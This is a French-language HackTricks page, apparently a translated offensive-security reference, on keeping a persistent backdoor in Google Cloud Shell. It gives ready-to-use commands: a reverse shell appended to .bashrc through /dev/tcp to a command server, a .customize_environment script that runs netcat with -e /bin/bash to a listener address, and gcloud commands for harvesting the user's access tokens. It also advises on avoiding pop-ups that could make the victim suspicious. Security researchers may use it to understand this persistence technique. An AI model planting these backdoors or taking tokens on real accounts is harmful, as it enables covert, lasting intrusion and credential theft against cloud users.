 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Pour plus d'informations, consultez :

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Backdoor Persistante

[**Google Cloud Shell**](https://cloud.google.com/shell/) vous fournit un accès en ligne de commande à vos ressources cloud directement depuis votre navigateur sans aucun coût associé.

Vous pouvez accéder à Cloud Shell de Google depuis la **console web** ou en exécutant **`gcloud cloud-shell ssh`**.

Cette console a des capacités intéressantes pour les attaquants :

1. **Tout utilisateur Google ayant accès à Google Cloud** a accès à une instance Cloud Shell entièrement authentifiée (les Comptes de Service peuvent, même en étant Propriétaires de l'organisation).
2. Cette instance **maintiendra son répertoire personnel pendant au moins 120 jours** s'il n'y a pas d'activité.
3. Il n'y a **aucune capacité pour une organisation de surveiller** l'activité de cette instance.

Cela signifie essentiellement qu'un attaquant peut placer une backdoor dans le répertoire personnel de l'utilisateur et tant que l'utilisateur se connecte au GC Shell au moins tous les 120 jours, la backdoor survivra et l'attaquant obtiendra un shell chaque fois qu'il sera exécuté simplement en faisant :

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Il y a un autre fichier dans le dossier personnel appelé **`.customize_environment`** qui, s'il existe, sera **exécuté à chaque fois** que l'utilisateur accède au **cloud shell** (comme dans la technique précédente). Il suffit d'insérer la porte dérobée précédente ou une comme celle-ci pour maintenir la persistance tant que l'utilisateur utilise "fréquemment" le cloud shell :
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Il est important de noter que la **première fois qu'une action nécessitant une authentification est effectuée**, une fenêtre d'autorisation contextuelle apparaît dans le navigateur de l'utilisateur. Cette fenêtre doit être acceptée avant que la commande puisse s'exécuter. Si une fenêtre contextuelle inattendue apparaît, cela pourrait susciter des soupçons et potentiellement compromettre la méthode de persistance utilisée.
{% endhint %}

Ceci est la fenêtre contextuelle résultant de l'exécution de `gcloud projects list` depuis le cloud shell (en tant qu'attaquant) vue dans la session utilisateur du navigateur :

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Cependant, si l'utilisateur a activement utilisé le cloudshell, la fenêtre contextuelle n'apparaîtra pas et vous pouvez **rassembler les tokens de l'utilisateur avec** :
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Comment la connexion SSH est établie

Fondamentalement, ces 3 appels API sont utilisés :

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (vous fera ajouter votre clé publique que vous avez créée localement)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (vous fera démarrer l'instance)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (vous indiquera l'IP du google cloud shell)

Mais vous pouvez trouver plus d'informations dans [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Références

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
